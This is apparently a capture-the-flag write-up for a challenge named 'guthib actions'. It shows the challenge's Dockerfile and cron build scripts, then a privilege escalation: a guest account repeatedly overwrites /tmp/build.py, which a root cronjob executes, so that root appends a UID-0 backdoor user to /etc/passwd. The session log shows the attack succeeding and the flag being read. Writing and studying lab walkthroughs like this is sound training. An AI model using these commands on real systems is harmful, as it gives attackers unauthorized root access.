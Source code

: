 
# guthib actions

### Description

Jaga visits a software development company that uses a custom CI/CD system to build executables for their software every 1 minute. While CI/CD is a good practice in the industry, just like other companies in this world of vulnerabilities, the system administrators forgot to close a guest account on the build system. Rumour has it that the login details for this account can be found easily in one of the provided files. Luckily, this account does not have root access and cannot access the confidential information stored in the root directory...or can it?

# Solution

Basic knowledge of the Linux terminal is understood

## Looking at the Source code

I looked at the Dockerfile first.

```Dockerfile
FROM ubuntu:22.04

RUN apt-get update &&  \
    apt-get install -y python3 python3-pip openssh-server cron && \
    apt-get clean && \
    rm -rf /var/lib/apt/lists/*

RUN pip install pyinstaller && \
    pip cache purge

RUN useradd -m -c 'Restricted guest account' guest && \
    echo 'guest:guest' | chpasswd

RUN echo "PasswordAuthentication yes" >> /etc/ssh/sshd_config

RUN (crontab -l ; echo "* * * * * /root/build.sh") | crontab


COPY ./flag.py /root/flag.py
COPY ./build.sh /root/build.sh
COPY ./build.py /root/build.py
COPY ./start.sh /root/start.sh

RUN chown -R guest /home/guest && \
    chmod -R 700 /root && \
    chmod -R 777 /home/guest
EXPOSE 1337
ENTRYPOINT /root/start.sh
```

I then looked at the entrypoint `start.sh`

```sh
#!/bin/sh


mkdir /var/run/sshd && /usr/sbin/sshd -D -o ListenAddress=0.0.0.0 -p 1337 &
cron -f
```

Since there's a crontab to `build.sh` (`RUN (crontab -l ; echo "* * * * * /root/build.sh") | crontab`),  I looked at the relevant script

```bash
#!/bin/bash
cd /tmp  # dump all the temp files Pyinstaller may generate in the temp dir
cp /root/build.py build.py
python3 build.py >/dev/null 2>&1  # build flag printing binary
rm -r *
```

Overall the source code suggests

1. There is an account `guest:guest` that we can login to via the specified port through ssh
2. There's a cronjob to run a script as root -> **IMMEDIATELY** think about Privesc opportunities
	1. cronjob basically means that a script/code is run at regular time intervals automatically. 
3. This script runs `/tmp/build.py` which is a **writable location**. In other words we can control the code root runs
   4. We can then read `flag.py`

## Running code as root using Cronjob

This is a standard Linux privesc method, crontab. We write to `/tmp/build.py` which is ran by root in the cronjob script `build.sh`.

However, `/tmp/build.py` is created by `build.sh`. So what I was thinking is to keep creating `build.py` to overwrite the `build.py` and run our code. The logic would be something like this

1. **Start our bash while loop**
2. **our loop - overwrites** `/tmp/build.py` with custom code -> Happens many times
3. cronjob runs
4. cronjob - creates `/tmp/build.puy`
5. **our loop - overwrites** `/tmp/build.py` with custom code
6. cronjob - runs `/tmp/build.py`
7. **Ctrl-C to stop our while loop**

Then we WIN

## Code to run as Root

However but what code to run as root?

In this case I just added a new user by writing to /etc/passwd

You can add a new user with the same privileges as root/ change root passwd. Learn more about /etc/passwd format [here](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/)

```bash
openssl passwd newpasswordhere
echo "<username>:<insert hash here>:0:0:root:/root:/bin/bash" >> /etc/passwd
```

eg. for credentials `dummyroot:password`

```bash
echo "dummyroot:EyJdPLm4o5WkY:0:0:root:/root:/bin/bash" >> passwd
```

However to run as a python script, I used the `os` module

```python
import os; os.system('echo "dummyroot:EyJdPLm4o5WkY:0:0:root:/root:/usr/bin/bash" >> /etc/passwd')
```

I wrote this to the `/tmp/build.py` using `echo [text] > [file]`

## Final Exploit

Ignore the minor mistake I made about the quotations here, if you know you know. Either way it still works

Steps
1. Login via SSH using `guest:guest`
2. Create `/tmp/build.py`
3. Wait for cronjob to run
4. `su` to change user to `dummyroot` with password `password`
5. Read the flag file

```bash
┌──(kali㉿localhost)-[~]
└─$ ssh guest@157.245.52.169 -p 30496
The authenticity of host '[157.245.52.169]:30496 ([157.245.52.169]:30496)' can't be established.
ECDSA key fingerprint is SHA256:RSsiM3h7pSbWyvjc5JUbC5cl+YQuYr0Y4TvkNo7SVu0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[157.245.52.169]:30496' (ECDSA) to the list of known hosts.
guest@157.245.52.169's password:
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.10.0-0.bpo.15-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$ bash
guest@ng-guthibactions-g5i4h-7f576d5bc4-hfrkg:~$ echo "import os; os.system('echo "dummyroot:EyJdPLm4o5WkY:0:0:root:/root:/usr/bin/bash" >> /etc/passwd')" > test.py
guest@ng-guthibactions-g5i4h-7f576d5bc4-hfrkg:~$ while :; do  cp test.py /tmp/build.py; done
^C
^C
guest@ng-guthibactions-g5i4h-7f576d5bc4-hfrkg:~$ su dummyroot # password is password
Password:
root@ng-guthibactions-g5i4h-7f576d5bc4-hfrkg:/home/guest# cd ~
root@ng-guthibactions-g5i4h-7f576d5bc4-hfrkg:~# cat flag.py
print('STF22{5up3r_5U5_5y5t3m_m0du13!_a0d66b3e608fe2b38ddf77d679fbde6b74e231f54c469a081f04dc65004360f8}')root@ng-guthibactions-g5i4h-7f576d5bc4-hfrkg:~# python3 flag.py
STF22{5up3r_5U5_5y5t3m_m0du13!_a0d66b3e608fe2b38ddf77d679fbde6b74e231f54c469a081f04dc65004360f8}
root@ng-guthibactions-g5i4h-7f576d5bc4-hfrkg:~# 
```

## More Information

This is a relatively common privesc topic you can learn for Penetration Testing/ OSCP. I recommend looking at TryHackMe boxes for Privesc to learn.

# Flag

`STF22{5up3r_5U5_5y5t3m_m0du13!_a0d66b3e608fe2b38ddf77d679fbde6b74e231f54c469a081f04dc65004360f8}`

